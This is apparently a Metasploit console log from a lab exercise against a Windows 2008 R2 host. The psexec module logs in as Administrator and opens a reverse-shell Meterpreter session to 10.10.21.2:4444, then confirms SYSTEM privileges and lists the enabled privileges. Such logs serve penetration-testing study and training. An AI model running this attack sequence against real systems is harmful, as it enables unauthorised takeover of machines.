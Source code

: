 ```
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.21.2:4444 
[*] 10.0.17.96:445 - Connecting to the server...
[*] 10.0.17.96:445 - Authenticating to 10.0.17.96:445 as user 'Administrator'...
[*] 10.0.17.96:445 - Selecting PowerShell target
[*] 10.0.17.96:445 - Executing the payload...
[+] 10.0.17.96:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 10.0.17.96
[*] Meterpreter session 1 opened (10.10.21.2:4444 -> 10.0.17.96:49297 ) at 2023-05-05 13:36:45 +0530

meterpreter > sysinfo
Computer        : VAGRANT-2008R2
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > 
```
